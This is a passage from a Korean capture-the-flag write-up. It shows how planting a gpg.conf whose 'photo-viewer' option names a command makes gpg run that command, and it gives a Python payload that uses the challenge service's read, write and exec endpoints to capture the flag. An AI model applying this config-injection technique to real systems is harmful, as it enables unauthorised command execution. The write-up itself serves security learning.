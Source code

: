 설명이 gpg, pgp를 왔다갔다 하는데 서로 호환되게 구현된 것이므로 틀린 표현은 아니다.

따라서 다음과 같은 내용을 `/home/user/.gnupg/gpg.conf`라는 파일에 저장한다.

``` txt
list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > /tmp/x 
list-keys
```

이후 `gpg` 명령을 실행해주면 설정값에 따라 키 목록을 표시하게 되고, 그 과정에서 사진을 출력할 바이너리가 `/would you be so kind to provide me with a flag > /tmp/x`으로 지정되어있으므로 사진을 출력할 때 명령어가 실행된다.

### Payload
``` python
import requests
import base64

url = "http://localhost:6664"

def rwx_read(filename):
    uri = url + "/read"
    uri += "?filename=" + filename
    return requests.get(uri)

def rwx_write(filename, data):
    uri = url + "/write"
    uri += "?filename=" + filename
    return requests.post(uri, data=data)

def rwx_exec(cmd):
    uri = url + "/exec"
    uri += "?cmd=" + cmd
    return requests.get(uri)

def main():
    rwx_exec("gpg")
    gpg_conf_content = (
        "list-options show-photos\n"
        "photo-viewer /would you be so kind to provide me with a flag > /tmp/x\n"
        "list-keys\n"
    )
    rwx_write("/home/user/.gnupg/gpg.conf", gpg_conf_content)

    with open("pubring.kbx", "rb") as f:
        pubring_data = f.read()
    rwx_write("/home/user/.gnupg/pubring.kbx", pubring_data)
    
    rwx_exec("gpg")
    r = rwx_read("/tmp/x")
    print(r.text)

if __name__ == '__main__':
    main()
```
